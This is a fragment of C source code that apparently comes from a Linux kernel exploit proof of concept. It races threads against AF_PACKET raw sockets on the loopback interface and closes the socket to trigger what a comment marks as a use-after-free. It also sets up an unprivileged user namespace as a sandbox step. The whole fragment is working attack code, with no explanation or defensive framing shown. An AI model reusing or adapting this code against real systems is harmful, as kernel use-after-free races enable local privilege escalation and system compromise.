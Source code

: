 ```

	while(1) {
		fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
		IS_ERR(fd == -1, "socket");

		strcpy((char *)&ifr.ifr_name, "lo");
		err = ioctl(fd, SIOCGIFINDEX, &ifr);
		IS_ERR(err == -1, "ioctl SIOCGIFINDEX");
		index = ifr.ifr_ifindex;

		err = ioctl(fd, SIOCGIFFLAGS, &ifr);
		IS_ERR(err == -1, "ioctl SIOCGIFFLAGS");

		ifr.ifr_flags &= ~(short)IFF_UP;
		err = ioctl(fd, SIOCSIFFLAGS, &ifr);
		IS_ERR(err == -1, "ioctl SIOCSIFFLAGS");

		addr.sll_family = AF_PACKET;
		addr.sll_protocol = 0x0; // need something different to rehook && 0 to skip register_prot_hook
		addr.sll_ifindex = index;

		pthread_t thread1, thread2;
	    pthread_create (&thread1, NULL, task1, NULL);
	    pthread_create (&thread2, NULL, task2, NULL);

	    pthread_join(thread1, NULL);
	    pthread_join(thread2, NULL);

		// UAF
		close(fd); 
	}
}

static bool write_file(const char* file, const char* what, ...) {
	char buf[1024];
	va_list args;
	va_start(args, what);
	vsnprintf(buf, sizeof(buf), what, args);
	va_end(args);
	buf[sizeof(buf) - 1] = 0;
	int len = strlen(buf);

	int fd = open(file, O_WRONLY | O_CLOEXEC);
	if (fd == -1)
		return false;
	if (write(fd, buf, len) != len) {
		close(fd);
		return false;
	}
	close(fd);
	return true;
}

void setup_sandbox() {
	int real_uid = getuid();
	int real_gid = getgid();

	if (unshare(CLONE_NEWUSER) != 0) {
		printf("[!] unprivileged user namespaces are not available\n");
		perror("[-] unshare(CLONE_NEWUSER)");
		exit(EXIT_FAILURE);
	}
```
